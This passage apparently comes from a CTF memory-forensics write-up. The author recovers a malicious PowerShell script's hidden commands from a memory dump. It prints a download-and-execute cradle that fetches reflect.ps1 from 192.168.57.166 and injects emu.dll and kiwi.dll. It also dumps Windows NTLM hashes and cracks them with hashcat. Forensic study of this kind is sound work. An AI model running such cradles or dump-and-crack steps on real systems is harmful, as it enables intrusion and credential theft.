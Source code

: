 ```
PS C:\Windows\system32> cd C:\Users\emu\Downloads
PS C:\Users\emu\Downloads> .\monkey.doc.ps1

Security Warning
Run only scripts that you trust. While scripts from the Internet can be useful, this script can potentially harm your
computer. Do you want to run C:\Users\emu\Downloads\monkey.doc.ps1?
[D] Do not run  [R] Run once  [S] Suspend  [?] Help (default is "D"): r

Id              Name            State      HasMoreData     Location             Command
--              ----            -----      -----------     --------             -------
1               Job1            Running    True            localhost            iex (New-Object net.we...
3               Job3            Running    True            localhost            iex (New-Object net.we...


PS C:\Users\emu\Downloads>
**************************************************
[...]
```
So the module `monkey.doc.ps1` started two jobs with a `iex` command. But the full command were not shown.

### Memdump
With that information I dumped the Notepad process that opened `monkey.doc.ps1` in the hope that I can extract the contents. And so it was:
```
$ vol.py -f EMU-OUTPOST.raw --profile=Win7SP1x86_24000 memdump -p 3048 -D ./
[...]
$ strings -n 10 -e l ./memdump/3048.dmp | grep New-Object
Start-Job -ScriptBlock {iex (New-Object net.webclient).Downloadstring('http://192.168.57.166/reflective/reflect.ps1'); Invoke-ReflectivePEInjection -PEUrl http://192.168.57.166/documents/emu.dll};Start-Job -ScriptBlock {iex (New-Object net.webclient).Downloadstring('http://192.168.57.166/reflective/reflect.ps1'); Invoke-ReflectivePEInjection -PEUrl http://192.168.57.166/documents/kiwi.dll}
```

The module uses the command `Invoke-ReflectivePEInjection` to inject the DLLs `emu.dll` and `kiwi.dll`. With that command those DLL can be loaded into the memory of the Powershell process and run without starting new processes that would be shown in the process lists.

### Hashdump
So the first three questions can be answered, but I wasn't able to find the password of the new user. I tried to extract and crack the password of the users of the system:
```
$ vol.py -f EMU-OUTPOST.raw --profile=Win7SP1x86_23418 hashdump > hashdump.txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IEUser:1000:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
sshd:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
sshd_server:1002:aad3b435b51404eeaad3b435b51404ee:8d0a16cfc061c3359db455d00ec27035:::
Emu:1003:aad3b435b51404eeaad3b435b51404ee:89551acff8895768e489bb3054af94fd:::
Backup:1004:aad3b435b51404eeaad3b435b51404ee:50ae1c69b9ac1f8450b34279f4cb0fc9:::
$ hashcat -a 0 -m 1000 memdump_hashes /home/kali/Desktop/tools/rockyou.txt
[...]
$ hashcat -m 1000 memdump_hashes --user --show
Administrator:fc525c9683e8fe067095ba2ddc971889:Passw0rd!
Guest:31d6cfe0d16ae931b73c59d7e0c089c0:
IEUser:fc525c9683e8fe067095ba2ddc971889:Passw0rd!
sshd:31d6cfe0d16ae931b73c59d7e0c089c0:
Emu:89551acff8895768e489bb3054af94fd:P@ssw0rd123
```
